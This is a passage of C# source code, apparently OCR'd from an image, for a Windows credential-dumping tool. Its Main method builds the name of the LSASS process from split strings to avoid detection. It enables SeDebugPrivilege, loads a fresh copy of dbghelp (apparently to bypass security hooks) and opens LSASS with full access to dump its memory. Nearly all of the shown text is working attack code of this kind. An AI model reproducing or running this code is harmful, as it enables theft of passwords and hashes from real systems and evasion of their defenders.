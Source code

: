 ``` cs
        public uint PointerToRawData;
        public uint PointerToRelocations;
        public uint PointerToLinenumbers;
        public ushort NumberOfRelocations;
        public ushort NumberOfLinenumbers;
        public uint Characteristics;
    }

    const uint TOKEN_QUERY = 0x0008;
    const uint TOKEN_ADJUST_PRIVILEGES = 0x0020;
    const uint SE_PRIVILEGE_ENABLED = 0x00000002;
    const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
	const uint GENERIC_READ = 0x80000000;
    const uint FILE_SHARE_READ = 0x00000001;
    const uint OPEN_EXISTING = 3;
    const uint PAGE_READONLY = 0x02;
    const uint SEC_IMAGE = 0x1000000;
    const uint FILE_MAP_READ = 0x0004;

    static void Main()
    {
        int pid = 0;

        foreach (Process proc in Process.GetProcesses())
        {
            string prefix = "ls";
            string suffix = "ass";
            string serviceName = prefix + suffix;

            if (proc.ProcessName == serviceName)
            {
                pid = proc.Id;
                Console.WriteLine("[+] The Process PID: " + pid);
                break;
            }
        }

        if (!IsElevated())
        {
            Console.WriteLine("Not admin");
            return;
        }
        if (!SetDebugPrivilege())
        {
            Console.WriteLine("No SeDebugPrivilege");
            return;
        }

        FreshCopyDbghelp();

        IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        if (hProcess == IntPtr.Zero)
        {
            Console.WriteLine("Failed in OpenProcess");
            return;
        }

        pd(hProcess, (uint)pid);
        CloseHandle(hProcess);
    }

    static bool IsElevated()
    {
```